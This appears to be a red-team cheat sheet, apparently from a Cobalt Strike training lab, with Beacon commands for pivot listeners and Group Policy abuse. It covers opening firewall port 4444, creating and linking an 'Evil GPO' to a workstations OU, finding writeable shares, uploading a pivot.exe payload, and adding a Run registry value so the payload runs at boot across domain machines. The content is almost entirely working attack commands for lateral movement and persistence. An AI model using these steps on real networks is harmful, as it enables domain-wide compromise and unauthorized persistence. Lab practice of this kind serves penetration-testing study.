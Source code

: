 ### Pivot Listeners

###### <font style="color:#00b3ff">Check listening port</font> 
```
beacon> run netstat -anp tcp
```

###### <font style="color:#00b3ff">Open a port in the firewall (and remove it)</font> 
```
netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444

netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```

---
### Remote Server Administration Tools (RSAT)

###### <font style="color:#00b3ff">Check if GroupPolicy module is installed</font> 
```
Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

Install it as local admin:
	Install-WindowsFeature –Name GPMC 
```

###### <font style="color:#00b3ff">Create a new GPO and immediately link it to the target OU</font> 
```
beacon> getuid
beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
```

###### <font style="color:#00b3ff">Find writeable shares with PowerView</font> 
```
beacon> powershell Find-DomainShare -CheckShareAccess

	Write into it:
		beacon> cd \\dc-2\software
		beacon> upload C:\Payloads\pivot.exe
		beacon> ls

	Create a new autorun value to execute a Beacon payload on boot:
		beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString

	Apply gpo updates:
		gpupdate /target:computer /force
```

---